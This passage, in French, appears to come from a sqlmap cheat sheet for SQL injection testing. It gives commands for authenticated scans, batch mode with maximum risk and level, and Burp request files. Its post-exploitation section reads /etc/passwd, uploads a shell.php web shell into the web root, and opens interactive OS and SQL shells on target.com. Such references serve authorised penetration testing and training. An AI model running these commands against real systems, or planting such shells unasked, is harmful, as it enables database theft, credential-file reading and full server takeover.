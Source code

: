 ### Tests avec authentification
```bash
# HTTP Basic Auth
sqlmap -u "http://target.com/page?id=1" --auth-type=basic --auth-cred="user:password"

# Formulaire de login
sqlmap -u "http://target.com/login" --data="username=admin&password=pass" --auth-type=digest

# Session cookies
sqlmap -u "http://target.com/page?id=1" --cookie="SESSIONID=abc123; auth=token"
```

## 🔄 Automatisation et Scripts

### Configuration batch
```bash
# Mode batch (pas d'interaction)
sqlmap -u "http://target.com/page?id=1" --batch --dbs

# Niveau de risk et verbosité
sqlmap -u "http://target.com/page?id=1" --risk=3 --level=5

# Sauvegarde de session
sqlmap -u "http://target.com/page?id=1" --save=config.conf
sqlmap --load=config.conf
```

### Tests sur fichiers de requêtes
```bash
# Depuis Burp Suite request
sqlmap -r request.txt

# Avec paramètre spécifique à tester
sqlmap -r request.txt -p "vulnerable_param"

# Ignorer certains paramètres
sqlmap -r request.txt --skip="csrf_token,timestamp"
```

### Scripts de post-exploitation
```bash
# Lecture de fichiers système
sqlmap -u "http://target.com/page?id=1" --file-read="/etc/passwd"

# Écriture de fichiers
sqlmap -u "http://target.com/page?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# Shell interactif
sqlmap -u "http://target.com/page?id=1" --os-shell
sqlmap -u "http://target.com/page?id=1" --sql-shell
```
